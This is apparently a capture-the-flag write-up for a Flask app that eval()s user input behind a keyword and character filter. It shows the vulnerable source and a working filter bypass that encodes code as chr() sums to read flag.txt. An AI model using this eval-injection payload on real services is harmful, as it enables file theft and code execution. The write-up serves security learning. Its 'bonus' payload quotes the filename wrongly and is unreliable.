


# solution

Take a quick look at the source code

```
#!/usr/bin/python3
from flask import Flask, request, render_template
import string
import subprocess
import re


app = Flask(__name__)


def filter(formula):
    w_list = list(string.ascii_lowercase + string.ascii_uppercase + string.digits)
    w_list.extend([" ", ".", "(", ")", "+"])

    if re.search("(system)|(curl)|(flag)|(subprocess)|(popen)", formula, re.I):
        return True
    for c in formula:
        if c not in w_list:
            return True


@app.route("/", methods=["GET", "POST"])
def index():
    if request.method == "GET":
        return render_template("index.html")
    else:
        formula = request.form.get("formula", "")
        if formula != "":
            if filter(formula):
                return render_template("index.html", result="Filtered")
            else:
                try:
                    formula = eval(formula)
                    return render_template("index.html", result=formula)
                except subprocess.CalledProcessError:
                    return render_template("index.html", result="Error")
                except:
                    return render_template("index.html", result="Error")
        else:
            return render_template("index.html", result="Enter the value")


app.run(host="0.0.0.0", port=8000)
```

We need to bypass filter function to trigger malicious payload on **eval()** function. After searching i find that we can use chr() to represent a character such as chr(65) for "A". The name flag's file is flag.txt. So i think we can use **open('flag.txt').read()** to read the file (if you want to know, you can use os.system('ls -la') to read all file in currently dir).

```
def string_to_chr(s):
    return '+'.join(f'chr({ord(c)})' for c in s)

input_string = "open('flag.txt').read()"
result = string_to_chr(input_string)
print(result)

```

here after i run that code

```
chr(111)+chr(112)+chr(101)+chr(110)+chr(40)+chr(39)+chr(102)+chr(108)+chr(97)+chr(103)+chr(46)+chr(116)+chr(120)+chr(116)+chr(39)+chr(41)+chr(46)+chr(114)+chr(101)+chr(97)+chr(100)+chr(40)+chr(41)
```

<br>
Hmm seem this work, but it seems to just convert the chr() string to a normal character string.

Since I changed it to chr() ~ to avoid filtering, when I actually send it I have to use eval() again to send it in plain text.

formula = eval( eval(chr~~) )

The inner eval converts the chr to plain text.

The outer eval is responsible for executing the command.

Final payload

```
eval(chr(111)+chr(112)+chr(101)+chr(110)+chr(40)+chr(39)+chr(102)+chr(108)+chr(97)+chr(103)+chr(46)+chr(116)+chr(120)+chr(116)+chr(39)+chr(41)+chr(46)+chr(114)+chr(101)+chr(97)+chr(100)+chr(40)+chr(41))
```

<br>

Bonus: After searching more a bit and test more, i find that we can use this payload to get the flag

```
open(chr(39)+chr(102)+chr(108)+chr(97)+chr(103)+chr(46)+chr(116)+chr(120)+chr(116)+chr(39)).read()
```

I think for eval() to work, we need to wrap these chr() type replacement characters in a plaintext function so that the eval function can execute.
